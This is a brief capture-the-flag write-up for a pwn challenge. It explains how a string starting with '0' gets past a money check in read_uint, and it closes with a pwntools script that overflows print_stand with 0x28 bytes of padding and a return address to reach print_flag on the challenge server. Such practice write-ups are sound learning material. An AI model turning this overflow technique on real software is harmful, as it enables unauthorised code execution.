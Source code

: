 # the-usual

```
points: 447
text: In the heart of a bustling medieval market, a burly Viking with a formidable beard and weathered armor stumbles upon a peculiar sight—a vibrant flag shop adorned with banners of every hue. Intrigued by the fluttering colors, he enters the shop, his towering frame contrasting with the delicate textiles. With a mix of curiosity and confusion, he marvels at the array of flags, pondering which one might best represent his warrior clan amidst the sea of symbols and sigils.

nc 35.94.129.106 3008

```
we can see that the only spot where we can do an overflow is in the function **print_stand**, to execute it we need to buy the 3rd element

we dont have enough money tho!

to buy it we need to look at the **read_uint** function

![alt text](the-usual.png)
###### i aint readin allat ######

for some magical reason ```stroul("0anystring",0LL,10)``` returns 0 but passes all the checks

now inside the **print_stand** function we can do a ret to win to **print_flag**

```py
from pwn import *

r = remote("35.94.129.106", 3008)

r.sendline(b"3")
r.sendline(b"0 M0NT3C4RL0 F7W")
ret = p64(0x0000000000401557)
r.send(b"a"*0x28+ret)
r.interactive()
```